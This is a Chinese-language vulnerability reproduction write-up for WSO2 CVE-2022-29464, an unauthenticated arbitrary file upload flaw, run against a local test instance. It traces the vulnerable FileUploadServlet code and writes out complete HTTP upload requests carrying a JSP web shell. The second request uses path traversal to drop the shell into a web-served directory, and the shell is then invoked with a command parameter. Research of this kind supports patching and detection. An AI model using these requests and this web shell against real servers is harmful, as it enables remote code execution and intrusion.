WSO2 fileupload 任意文件上传漏洞 CVE-2022-29464¶
漏洞描述¶
CVE-2022-29464 是 Orange Tsai发现的 WSO2 上的严重漏洞。该漏洞是一种未经身份验证的无限制任意文件上传，允许未经身份验证的攻击者通过上传恶意 JSP 文件在 WSO2 服务器上获得 RCE。
漏洞影响¶
WSO2 API Manager 2.2.0 and above
WSO2 Identity Server 5.2.0 and above
WSO2 Identity Server Analytics 5.4.0, 5.4.1, 5.5.0, 5.6.0
WSO2 Identity Server as Key Manager 5.3.0 and above
WSO2 Enterprise Integrator 6.2.0 and above
环境搭建¶
https://github.com/wso2/product-apim/releases/download/v4.0.0/wso2am-4.0.0.zip
https://github.com/wso2/product-apim/archive/refs/tags/v4.0.0.zip
漏洞复现¶
下载 releases 后进入 bin目录, 执行 api.manager.sh文件，并开启 debug 方便远程调试

打开 product-apim-4.0.0 ，下载依赖，连接Debug进行调试分析

运行后访问 localhost:9443 出现如下即搭建完成

在配置文件 identity.xml 中我们可以看到 路由 /fileupload 中不存在权限鉴定, 对应的 Servlet 为 FileUploadServlet

文件上传为POST请求，对应的处理方法为 doPost (org.wso2.carbon.ui.transports.FileUploadServlet#doPost)
protected void doPost(HttpServletRequest request,
HttpServletResponse response) throws ServletException, IOException {
try {
fileUploadExecutorManager.execute(request, response);
} catch (Exception e) {
String msg = "File upload failed ";
log.error(msg, e);
throw new ServletException(e);
}
}
继续向下，略过调用方法的过程
execute:55, ToolsAnyFileUploadExecutor (org.wso2.carbon.ui.transports.fileupload)
executeGeneric:104, AbstractFileUploadExecutor (org.wso2.carbon.ui.transports.fileupload)
execute:436, FileUploadExecutorManager$CarbonXmlFileUploadExecHandler (org.wso2.carbon.ui.transports.fileupload)
startExec:320, FileUploadExecutorManager$FileUploadExecutionHandlerManager (org.wso2.carbon.ui.transports.fileupload)
execute:127, FileUploadExecutorManager (org.wso2.carbon.ui.transports.fileupload)


最后来到出现漏洞的位置 org.wso2.carbon.ui.transports.fileupload.ToolsAnyFileUploadExecutor#execute
这里我们构造请求包，上传文件
POST /fileupload/toolsAny HTTP/1.1
Host: localhost:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 729
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0
--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="1.jsp"; filename="1.jsp"
<FORM>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
String output = "";
if(cmd != null) {
String s = null;
try {
Process p = Runtime.getRuntime().exec(cmd,null,null);
BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
while((s = sI.readLine()) != null) { output += s+"</br>"; }
} catch(IOException e) { e.printStackTrace(); }
}
%>
<pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--

上传时文件名为 1.jsp，成功上传目标会返回 uuid 值, 调试过程中我们可以发现文件被上传在某个目录下

public class ToolsAnyFileUploadExecutor extends AbstractFileUploadExecutor {
@Override
public boolean execute(HttpServletRequest request,
HttpServletResponse response) throws CarbonException, IOException {
PrintWriter out = response.getWriter();
try {
Map fileResourceMap =
(Map) configurationContext
.getProperty(ServerConstants.FILE_RESOURCE_MAP);
if (fileResourceMap == null) {
fileResourceMap = new TreeBidiMap();
configurationContext.setProperty(ServerConstants.FILE_RESOURCE_MAP,
fileResourceMap);
}
List<FileItemData> fileItems = getAllFileItems();
//String filePaths = "";
for (FileItemData fileItem : fileItems) {
String uuid = String.valueOf(
System.currentTimeMillis() + Math.random());
String serviceUploadDir =
configurationContext
.getProperty(ServerConstants.WORK_DIR) +
File.separator +
"extra" + File
.separator +
uuid + File.separator;
File dir = new File(serviceUploadDir);
if (!dir.exists()) {
dir.mkdirs();
}
File uploadedFile = new File(dir, fileItem.getFileItem().getFieldName());
try (FileOutputStream fileOutStream = new FileOutputStream(uploadedFile)) {
fileItem.getDataHandler().writeTo(fileOutStream);
fileOutStream.flush();
}
response.setContentType("text/plain; charset=utf-8");
//filePaths = filePaths + uploadedFile.getAbsolutePath() + ",";
fileResourceMap.put(uuid, uploadedFile.getAbsolutePath());
out.write(uuid);
}
//filePaths = filePaths.substring(0, filePaths.length() - 1);
//out.write(filePaths);
out.flush();
} catch (Exception e) {
log.error("File upload FAILED", e);
out.write("<script type=\"text/javascript\">" +
"top.wso2.wsf.Util.alertWarning('File upload FAILED. File may be non-existent or invalid.');" +
"</script>");
} finally {
out.close();
}
return true;
}
}

但文件名是我们可控的，拼接的过程中我们通过控制文件名遍历目录，将文件上传到我们需要的位置, 查找可以解析 jsp文件的目录

构造请求包，通过控制文件名的方法上传至该目录中
POST /fileupload/toolsAny HTTP/1.1
Host: localhost:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 729
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0
--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"
<FORM>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
String output = "";
if(cmd != null) {
String s = null;
try {
Process p = Runtime.getRuntime().exec(cmd,null,null);
BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
while((s = sI.readLine()) != null) { output += s+"</br>"; }
} catch(IOException e) { e.printStackTrace(); }
}
%>
<pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--

访问上传的文件，/authenticationendpoint/xxx.jsp?cmd=ls
